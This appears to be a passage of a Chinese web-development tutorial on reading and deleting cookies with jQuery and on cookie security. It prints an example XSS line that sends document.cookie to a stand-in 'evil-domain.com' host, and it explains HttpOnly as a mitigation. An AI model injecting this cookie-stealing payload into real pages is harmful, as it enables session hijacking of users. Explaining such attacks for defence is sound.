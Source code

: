 **（2）获取cookie**

```text
$.cookie("name"); 
 //如果存在则返回AmberYLopez，否则返回null。
```

**（3）删除cookie**

```text
$.cookie("name",null);
```

#### 四、安全性

保护`cookie`不被非法访问的唯一方法是将它放在另一个域名/子域名之下,，利用[同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)保护其不被读取。

`Web`应用程序通常使用`cookies`来标识用户身份及他们的登录会话.。因此通过窃听这些`cookie`， 就可以劫持已登录用户的会话.，窃听的`cookie`的常见方法包括CSRF攻击和XSS攻击

```text
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 属性可以阻止通过`javascript`访问`cookie`，从而一定程度上遏制这类攻击。

> 参考资料：
>
> [Cookie-维基百科](https://zh.wikipedia.org/wiki/Cookie)
>
> [Document.cookie](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie)
>
> [js-cookie.js的使用](https://juejin.im/post/5b56e2a45188251abb46ba60)
>
> [Js 操作Cookie](https://www.jianshu.com/p/ff10547a3587)

